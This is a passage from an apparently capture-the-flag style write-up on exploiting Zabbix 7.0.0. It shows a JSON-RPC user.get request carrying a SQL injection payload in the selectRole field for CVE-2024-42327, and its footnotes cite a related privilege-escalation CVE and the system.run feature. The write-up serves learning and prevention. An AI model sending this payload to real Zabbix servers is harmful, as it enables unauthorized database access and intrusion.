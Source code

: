 ![image.png](/assets/img/Unrested/image%202.png){: .shadow }

Go further  and confirm nested SQL queries supported:
```json
{
  "jsonrpc": "2.0",
  "method": "user.get",
  "params": {
    "selectRole": [
      "roleid, (Select 'mrlsecurity.com')"
    ],
    "userids": [
      "1"
    ]
  },
  "auth": "a",
  "id": 1
}
```
{: .nolineno }

> The SQL injection above is much simplier than suggested by compr00t in his POc, no need to struggle with time-based technique for data exfiltration, as the Zabbix 7.0.0 configuration allows us to use non-blind methods. Consider this as more efficient PoC for **CVE-2024-42327** [^PoC-sql-my]. 
For learning and prevention purpuses only!
{: .prompt-tip }


[^CVE-2024-36467]: [CVE-2024-36467 / ZBX-25614](https://support.zabbix.com/browse/ZBX-25614), 
[^privesc-poc]: PoC for CVE-2024-36467 / ZBX-25614
[^user-update]: Documentation on [user.update](https://www.zabbix.com/documentation/current/en/manual/api/reference/user/update)
[^CUser-checkHimself]: [function checkHimself](https://github.com/zabbix/zabbix/blob/7.0.0/ui/include/classes/api/services/CUser.php#L1109C2-L1120C9) 
[^usrgrpid]: [Documentation on usergroup object](https://www.zabbix.com/documentation/current/en/manual/api/reference/usergroup/object)
[^CVE-2024-42327]: [CVE-2024-42327 / ZBX-25623](https://support.zabbix.com/browse/ZBX-25623), [POC](https://github.com/compr00t/CVE-2024-42327/tree/main)
[^PoC-sql-my]: Proof Of Concept for CVE-2024-42327 / ZBX-25623 by mrlsecurity.
[^SQL-addRelatedObjects]: Github lines [3041-3051](https://github.com/zabbix/zabbix/blob/49955f1fb5c9168a8a24b053f7ade6b3d903143c/ui/include/classes/api/services/CUser.php#L3041C1-L3051C6)
[^user-get]: Call for addRelatedObjects in [user.get](https://github.com/zabbix/zabbix/blob/49955f1fb5c9168a8a24b053f7ade6b3d903143c/ui/include/classes/api/services/CUser.php#L234)
[^system-run]: Documentation on Zabbix [system.run](https://www.zabbix.com/documentation/current/en/manual/config/items/itemtypes/zabbix_agent#system.run)
[^hostid]: Documentation on Zabbix [hostid and interfaceid](https://www.zabbix.com/documentation/7.2/en/manual/api/reference/host/get?hl=host.get)
[^nmap-doc]: nmap [documentation](https://nmap.org/book/data-files-replacing-data-files.html)